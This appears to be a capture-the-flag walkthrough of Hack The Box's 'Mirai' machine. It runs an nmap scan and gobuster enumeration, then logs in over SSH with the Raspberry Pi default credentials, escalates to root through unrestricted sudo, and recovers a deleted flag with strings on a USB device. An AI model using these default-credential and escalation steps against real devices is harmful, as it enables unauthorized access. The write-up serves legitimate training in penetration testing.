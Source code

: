 # Mirai walkthrough (Hack The Box)

- named after [Mirai botnet](https://en.wikipedia.org/wiki/Mirai_(malware))

- initial portscan

```
Nmap scan report for 10.10.10.48
Host is up (0.054s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey:
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid:
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- examining port `80` with curl
```
me@kali:/workspace$ curl http://10.10.10.48 -I
HTTP/1.1 404 Not Found
X-Pi-hole: A black hole for Internet advertisements.
Content-type: text/html; charset=UTF-8
Date: Sun, 29 Mar 2020 19:02:26 GMT
Server: lighttpd/1.4.35
```

- no exploits for `lighttpd/1.4.35` found

- gobuster
```
me@kali:/workspace$ gobuster dir -w /infosec/SecLists/Discovery/Web-Content/big.txt -u http://10.10.10.48
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.48
[+] Threads:        10
[+] Wordlist:       /infosec/SecLists/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/03/29 14:54:12 Starting gobuster
===============================================================
/admin (Status: 301)
/versions (Status: 200)
===============================================================
2020/03/29 14:56:10 Finished
===============================================================
```

- found **Pi-hole** webpage

![Pi-hole application](pi-hole.png)

- no exploits available for **Pi-hole**

- it looks like the device is a Raspberry Pi, let's try default credentials - username `pi`, password `raspberry`

```
me@kali:~/Downloads$ ssh pi@10.10.10.48
pi@10.10.10.48's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 29 20:41:44 2020 from 10.10.14.55

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ whoami
pi
```

- user flag is in `/home/pi/Desktop`

- we can run all commands as `sudo`

```
pi@raspberrypi:~/Desktop $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

- run `sudo su` to switch to root user

```
pi@raspberrypi:~/Desktop $ sudo su
root@raspberrypi:/home/pi/Desktop# whoami
root
```

- find the root flag

```
root@raspberrypi:/home/pi/Desktop# cd /root/
root@raspberrypi:~# ls -l
total 4
-rw-r--r-- 1 root root 76 Aug 14  2017 root.txt
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

- find the usb stick

```
root@raspberrypi:~# cd /media/
root@raspberrypi:/media# ls -l
total 1
drwxr-xr-x 3 root root 1024 Aug 14  2017 usbstick
root@raspberrypi:/media# cd usbstick/
root@raspberrypi:/media/usbstick# ls -l
total 13
-rw-r--r-- 1 root root   129 Aug 14  2017 damnit.txt
drwx------ 2 root root 12288 Aug 14  2017 lost+found
root@raspberrypi:/media/usbstick# cat damnit.txt
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

- nothing else on the device
- try `mount` to list devices

```
root@raspberrypi:~# mount
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
...
/dev/sdb on /media/usbstick type ext4 (ro,nosuid,nodev,noexec,relatime,data=ordered)
...
binfmt_misc on /proc/sys/fs/binfmt_misc type binfmt_misc (rw,relatime)
```

- look for the flag in the device using `strings` or `grep` (the output contains the flag)

```
root@raspberrypi:~# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
[***FLAG***]
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
root@raspberrypi:~#
```
